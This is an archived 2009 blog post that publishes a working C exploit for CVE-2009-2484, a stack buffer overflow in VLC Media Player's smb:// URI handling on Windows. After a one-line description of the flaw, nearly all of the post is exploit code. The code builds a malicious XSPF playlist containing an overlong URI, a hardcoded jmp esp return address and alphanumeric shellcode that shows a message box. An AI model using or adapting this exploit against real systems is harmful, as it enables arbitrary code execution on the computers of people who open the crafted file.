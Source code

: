 ```yaml
---
author: pank4j
comments: true
date: 2009-08-07 00:15:46+00:00
layout: post
slug: vlc-media-player-smb-uri-handling-remote-buffer-overflow-vulnerability-exploit
title: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
description: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
wordpress_id: 81
categories:
- Archive
tags:
- CVE-2009-2484
- exploits
---
```


A stack-based buffer overflow exists in the `Win32AddConnection` function in `modules/access/smb.c` in VideoLAN VLC media player 0.9.9, when running on Microsoft Windows, that allows remote attackers to execute arbitrary code via a long smb URI in a playlist file.

{% highlight c %}
/* VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
* Reference: http://www.securityfocus.com/bid/35500
*
* Tested on VLC media player 0.8.6f on WinXP SP3
*
* Coded by Pankaj Kohli
* http://www.codepwn.com
*
*/
 
#include <stdio.h>
#include <string.h>
 
// ASCII shellcode (Display a message box & exit)
unsigned char shell[] = "TY777777777777777777777777777777777QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIXkweaHrJwpf02pQzePMhyzWwSuQnioXPOHuBxKnaQlkOjpJHIvKOYokObPPwRN1uqt5PA";
 
long jmp = 0x7E485233; // jmp esp (user32.dll)
 
int main(int argc, char **argv) {
    char buff[512], *p;
    FILE *fp;
    int i;
    long *ptr;
 
    fp = fopen("sploit.xspf", "wb");
    fprintf(fp, "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n");
    fprintf(fp, "<playlist version=\"1\" xmlns=\"http://xspf.org/ns/0/\" xmlns:vlc=\"http://www.videolan.org/vlc/playlist/ns/0/\">\n");
    fprintf(fp, "\t<title>Playlist</title>\n");
    fprintf(fp, "\t<trackList>\n");
    fprintf(fp, "\t\t<track>\n");
    fprintf(fp, "\t\t\t<location>smb://example.com@www.example.com/foo/#{");
 
    printf("[*] Creating buffer\n");
    for(i=0; i<300; i++) {
        buff[i] = 'a' + ((i/4)%26);
    }
    ptr = (long *) (buff + 96);
    *ptr = jmp;
    for(i=0; i<strlen((const char *) shell); i++) {
        buff[i+100] = shell[i];
    }
    buff[300] = 0;
    fprintf(fp, "%s", buff);
 
    fprintf(fp, "}</location>\n");
    fprintf(fp, "\t\t\t<extension application=\"http://www.videolan.org/vlc/playlist/0\">\n");
    fprintf(fp, "\t\t\t\t<vlc:id>0</vlc:id>\n");
    fprintf(fp, "\t\t\t</extension>\n");
    fprintf(fp, "\t\t</track>\n");
    fprintf(fp, "\t</trackList>\n");
    fprintf(fp, "</playlist>\n");
    fclose(fp);
 
    printf("[*] Exploit file written to sploit.xspf\n");
 
    return 0;
}
{% endhighlight %}

